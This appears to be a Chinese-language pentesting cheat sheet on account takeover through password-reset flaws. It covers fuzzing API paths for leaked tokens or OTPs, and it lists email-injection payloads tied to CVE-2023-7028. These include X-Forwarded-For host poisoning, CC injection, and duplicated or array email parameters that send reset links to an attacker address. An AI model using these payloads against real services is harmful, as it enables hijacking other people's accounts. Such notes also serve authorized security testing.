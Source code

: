## 泄露Tokens
1. 寻找泄露的Tokens / OTP
2. 寻找OTP/Tokens利用路径，猜测参数
	1. fuzz 路径 / 参数
	2. 使用自己账号测试 拿到路径
3. 也可以去fuzz api文档之类的 去看文档找利用点



### 寻找泄露Tokens
- 响应包泄露
- 路径fuzz，发现Tokens生成界面 ：[账户接管 BMW 经销商](https://www.bilibili.com/video/BV1S79cYZEYE/)
	- `api/FUZZ`
	- `api/auth/FUZZ`
	- `api/v1/FUZZ`
	- `api/v1/auth/FUZZ`
	- `api/v2/FUZZ`

## 邮箱注入
- CVE-2023-7028
- 


1. ` X-Forwarded-For` Header : 改变密码修改链接的Host头
2. CC抄送：
	1. `email=user@xxx.com,cc:hacker@xxx.com`
	2. `email=user@xxx.com\ncc:hacker@xx.com`
3. 多值参数
	1. Json: 
		1. `{email:user@xxx.com,email:hacker@xxx.com}`
		2. `{email:[user@xxx.com,hacker@xxx.com]}`
	2. 数组：
		1. `email[]=user@xxx.com&&email[]=hacker@xx.com`
		2. `email[0]=user@xxx.com&&email[1]=hacker@xx.com`
	3. 字符串：
		1. `email=user@xxx.com,hacker@xxx.com`
		2. `email=user@xxx.com&hacker@xxx.com`